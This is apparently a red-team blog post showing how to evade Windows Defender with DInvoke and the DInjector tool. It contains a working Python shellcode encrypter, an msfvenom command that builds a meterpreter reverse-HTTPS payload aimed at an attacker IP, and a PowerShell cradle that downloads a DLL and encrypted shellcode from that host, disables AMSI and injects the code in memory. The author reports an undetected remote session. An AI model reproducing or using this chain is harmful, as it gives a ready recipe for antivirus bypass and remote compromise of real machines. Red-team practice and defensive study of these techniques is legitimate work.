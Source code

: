 ```yaml
---
layout: single
title: "Making use of DInvoke as a better evasion practice , avoiding PInvoke & API Hooks"
date: 2021-10-26
tags:  
  - windows
  - avbypass
  - dinvoke
  - windows-defender
author_profile: true
---
```

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/defender.webp)

Hello back fellow red teamers. I decided to come make a blog post after a little of long period in which I lost all of my other blog posts.

Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to upgrade my own skills on red teaming.

In this article I'm going to explain how you can make use of Dynamic Invocation instead of PInvoke for a less suspicios execution.

First let's take a view :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
 
>*DInvoke is a dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.
It helps you use unmanaged code from C# while avoiding suspicious P/Invokes. Rather than statically importing API calls with PInvoke, you may use Dynamic Invocation to load the DLL at runtime and call the function using a pointer to its location in memory. You may call arbitrary unmanaged code from memory (while passing parameters), allowing you to bypass API hooking in a variety of ways and execute post-exploitation payloads reflectively.*

Rather than using PInvoke to import the API calls that we want to use, we load a DLL into memory manually. This can be done using whatever mechanism you would prefer. Then, we get a pointer to a function in that DLL. We may call that function from the pointer while passing in our parameters.

By leveraging this dynamic loading API rather than the static loading API that sits behind PInvoke, you avoid directly importing suspicious API calls into your .NET Assembly.

To show that little proof of concept of how it is done at a concrete target I will use [DInjector](https://github.com/snovvcrash/DInjector)

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img1.png)

DInjector is a tool which is fully ported on `DInvoke` APIs and simulates the concept of executing code through dynamic invocatuion in easier steps for people like me who are generally dumb.

Below is shown the content of encrypter.py which takes a raw shellcode payload and encodes it using either `AES` or `XOR` up to your preference.

- encrypter.py

```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

>*OK? WHATS NEXT?*

Of course I need to compile the ``DInjector`` project which will output the `.DLL` file that is going to be loaded into the memory in order to call the shellcode.

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Encryping the shellcode and setting up a listener which will serve the files that we need to load on the target machine : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)

Before executing let's make sure Windows Defender is up to date.

![img3](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img3.png)

To load the DLL into the memory and call the shellcode you can use ``cradle.ps1`` which is part of the ``DInjector`` repo.

```powershell
# MODULE
$M = "currentthread"

# LHOST
$H = "192.168.88.142"

# AMSI
$A = "true"

# DLL
$D = "DInjector.dll"

# SHELLCODE
$S = "enc"

# PASSWORD
$P = "hahaWOW!!encrypt"

# PROCESS
$N = "notepad"

# IMAGE
$I = "C:\Windows\System32\svchost.exe"

# --------------------------------------------------------------------

$methods = @("remotethread", "remotethreadsuspended")
if ($methods.Contains($M)) {
    $N = (Start-Process -WindowStyle Hidden -PassThru $N).Id
}

$cmd = "$M /am51:$A /sc:http://$H/$S /password:$P /pid:$N /image:$I"

$data = (IWR -UseBasicParsing "http://$H/$D").Content
$assem = [System.Reflection.Assembly]::Load($data)

$flags = [Reflection.BindingFlags] "NonPublic,Static"

$class = $assem.GetType("DInjector.Detonator", $flags)
$entry = $class.GetMethod("Boom", $flags)

$entry.Invoke($null, (, $cmd.Split(" ")))
```

Clean execution , no trigger of the Antivirus and a functional meterpreter session!  
It succesfully beat a fully updated Windows Defender, I was surprised!

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img4.png)

### References

Most of the ``DInvoke`` concept explaination paragraphs are based on [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
